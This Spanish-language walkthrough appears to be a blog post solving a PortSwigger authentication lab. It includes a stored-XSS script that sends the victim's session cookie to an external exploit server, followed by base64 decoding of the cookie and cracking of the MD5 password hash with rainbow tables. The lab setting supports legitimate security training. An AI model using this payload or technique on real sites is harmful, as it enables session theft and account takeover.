 ```yaml
---
title: Offline password cracking
description: Laboratorio de Portswigger sobre Authentication Vulnerabilities
date: 2025-01-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Authentication Vulnerabilities
tags:
  - Portswigger Labs
  - Authentication Vulnerabilities
  - Offline password cracking
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` almacena el `hash de la contraseña` del usuario en una `cookie`. Además, contiene una `vulnerabilidad de XSS` en la `funcionalidad de comentarios`. Para `resolver` el `laboratorio`, debemos `obtener la cookie stay-logged-in` de `Carlos` mediante `XSS`, `crackear su hash de contraseña` y luego `iniciar sesión` como `carlos`. Finalmente, debemos `eliminar su cuenta` desde la página `Mi cuenta`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `crackear` la `contraseña`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_2.png)

Pulsamos en `View post` y vemos que hay una `sección` de `comentarios`

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_3.png)

Vemos que hemos podido `inyectar código HTML`

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_4.png)

Si vemos el `código fuente` nos damos cuenta que el código insertado en la `sección` de `comentarios` no se está `HTML encodeando` 

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_5.png)

Nos dirigimos al `Exploit server` y copiamos la url `https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit`, posteriormente vamos a publicar un comentario para `explotar` un `stored XSS` y así `obtener` la `cookie` del `usuario víctima`

```
<script>document.location='https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit/'+document.cookie</script>
```

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_6.png)

Una vez publicado nos dirigimos al `Exploit server` y abrimos el apartado de `logs` y vemos este `log`

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_7.png)

Si `decodeamos` este `parámetro` de la cookie `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` obtener el `nombre` de `usuario` y la `contraseña` del usuario `hasheada`

```
# echo 'Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz' | base64 -d  
carlos:26323c16d5f4dabff3bb136f2460a943 
```

Además de `crackear` la `contraseña` con `john` o `hashcat` podemos usar `rainbow tables` para `obtener` la `contraseña`, existen varias web que podemos usar como [https://crackstation.net/](https://crackstation.net/)

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_8.png)

También podríamos `pegar` el `hash` en el `navegador` y `obtener` el `contenido` del `hash` de esta forma

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_9.png)

Una vez tenemos el `usuario` y la `contraseña` ya podemos acceder `iniciar sesión` con las credenciales `carlos:onceuponatime` y `borrar` al `usuario carlos`

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_10.png)

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_11.png)

![](/assets/img/Authentication-Vulnerabilities-Lab-10/image_12.png)

